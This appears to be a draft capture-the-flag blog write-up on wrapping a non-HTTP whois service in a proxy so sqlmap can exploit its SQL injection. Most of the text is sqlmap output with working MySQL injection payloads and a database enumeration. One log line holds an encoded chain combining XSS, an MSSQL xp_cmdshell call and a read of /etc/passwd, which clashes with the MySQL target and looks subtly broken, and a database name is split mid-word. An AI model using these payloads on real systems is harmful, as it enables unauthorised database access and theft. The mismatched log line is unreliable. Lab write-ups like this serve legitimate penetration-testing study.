 ```yaml
---
title: Introducing SQLMAP into non-HTTP services.
published: false
---
```


## The problem:

Lately, I was introduced to an interesting problem. How to automate the SQL injection exploitation of non-HTTP service? Sometimes services like `whois` are using custom SQL databases, which is an ideal situation to introduce unwanted problems. Because of that, this `whois` service is working on a non-retired HTB box I can't do it very detailed but you should be able to take advantage of the idea itself to create your own custom proxies. Let's start by diving into the information on how sqlmap actually works.

## SQLMAP:

You should already know that it can automate the SQL injection attack using requests to HTTP/S sites and some magic :) While passing an interesting HTTP request or URL to it, it can test all parameters, no matter if it is GET or POST or even HTTP header based injection point. But what to do when you know that your non-HTTP service is prone to SQL injection attack? You can exploit it manually which is recommended for learning sake or use a tool that is dedicated to that service being able to communicate with it and script your way into.

## Toolbelt:

- sqlmap 1.3.9#stable
- python 3.7

## Tool:

https://github.com/haqpl/shiny-garbanzo


## Working example:

Below you can see an example usage of `shiny-garbanzo` and the corresponding output of SQLMAP, which identified and successfully exploited three different types of SQLi vulnerability in non-HTTP `whois` service.

```
python3 shiny-garbanzo.py --host '127.0.0.1' --tool "whois" --port 1337 --arguments="-h 10.10.10.155 SQLMAP"
[i] Starting server on 1337 PORT
[i] Start with this:
[+] sqlmap -u "127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST /?lgda=9167%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 -
127.0.0.1 - - [23/Oct/2019 18:20:17] "POST / HTTP/1.1" 200 -
...
```

```
sqlmap -u "http://127.0.0.1:1337" --data "cmd=" -p "cmd" --method POST --tables --flush-session
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:20:16 /2019-10-23/

[18:20:17] [WARNING] provided value for parameter 'cmd' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[18:20:17] [INFO] flushing session file
[18:20:17] [INFO] testing connection to the target URL
[18:20:17] [WARNING] turning off pre-connect mechanism because of incompatible server ('BaseHTTP/0.6 Python/3.7.5rc1')
[18:20:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:20:17] [INFO] testing if the target URL content is stable
[18:20:17] [INFO] target URL content is stable
[18:20:17] [INFO] heuristic (basic) test shows that POST parameter 'cmd' might be injectable (possible DBMS: 'MySQL')
[18:20:17] [INFO] heuristic (XSS) test shows that POST parameter 'cmd' might be vulnerable to cross-site scripting (XSS) attacks
[18:20:17] [INFO] testing for SQL injection on POST parameter 'cmd'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSesfor the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and [18:20:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:20:24] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[18:20:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:25] [WARNING] reflective value(s) found and filtering out
[18:20:26] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[18:20:27] [INFO] POST parameter 'cmd' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
[18:20:27] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[18:20:27] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[18:20:27] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[18:20:27] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[18:20:27] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[18:20:27] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[18:20:27] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:20:27] [INFO] POST parameter 'cmd' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:20:27] [INFO] testing 'MySQL inline queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[18:20:27] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[18:20:28] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[18:20:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[18:20:38] [INFO] POST parameter 'cmd' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[18:20:38] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[18:20:38] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:20:38] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:20:38] [INFO] target URL appears to have 2 columns in query
[18:20:38] [INFO] POST parameter 'cmd' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[18:20:38] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'cmd' is vulnerable. Do you want to keep testing the others (if any)? [y/N] sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: cmd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: cmd=-5703') OR 4258=4258#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: cmd=') AND (SELECT 9790 FROM(SELECT COUNT(*),CONCAT(0x716a7a6271,(SELECT (ELT(9790=9790,1))),0x71627a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- mPGW

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cmd=') AND (SELECT 9669 FROM (SELECT(SLEEP(5)))ocLO)-- pzpA

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: cmd=') UNION ALL SELECT CONCAT(0x716a7a6271,0x736e52496f5a646e56714f70556150784b766b6648696a45746d6869424875725a77684354704b70,0x71627a6b71),NULL#
---
[18:20:45] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[18:20:45] [INFO] fetching database names
[18:20:45] [INFO] fetching tables for databases: 'information_schema, whois'
Database: informati\non_schema
[1 table]
...

Database: whois
[1 table]
...

Database: information_schema
[77 tables]
...

[18:20:45] [INFO] fetched data logged to text files under './output/127.0.0.1'

[*] ending @ 18:20:45 /2019-10-23/

```

## Credits:

[https://twitter.com/kolokokop](@kolokokop), he did it the same way ;)
